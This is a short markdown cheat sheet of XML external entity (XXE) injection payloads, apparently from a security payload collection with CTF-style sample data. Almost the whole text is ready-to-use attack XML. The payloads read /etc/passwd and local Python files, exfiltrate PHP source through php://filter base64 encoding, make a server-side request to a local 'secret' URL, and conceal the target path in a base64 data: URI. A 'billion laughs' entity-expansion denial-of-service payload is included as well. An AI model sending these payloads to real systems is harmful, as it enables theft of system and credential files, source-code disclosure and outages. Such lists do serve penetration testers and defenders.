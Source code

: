 # XML Injection


### Read etc/passwd without encoding
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<post>
	<poster>vbvebre</poster>
	<content>&xxe;</content>
</post>
```

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

### Read a file and base64 encode it for display

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY c SYSTEM "php://filter/read=convert.base64-encode/resource=view_order.php">
]>
<order>
    <item>
        <name>&c;</name>
        <amount>14</amount>
    </item>
</order>
```

### Read a file from a URL 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://127.0.0.1/secret"> ]>

<post>
	<poster>vbvebre</poster>
	<content>&xxe;</content>
</post>
```


### Read a python file

```xml
<xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:feed.py'>]>
<test>
<Author>&test;</Author>
<Subject>test</Subject>
<Content>test</Content>
</test>
```

### Base64 Encoded

```xml
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

### Billion Laugh Attack
```xml
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```

### PHP Wrapper
```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <address>42 rue du CTF</address>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```

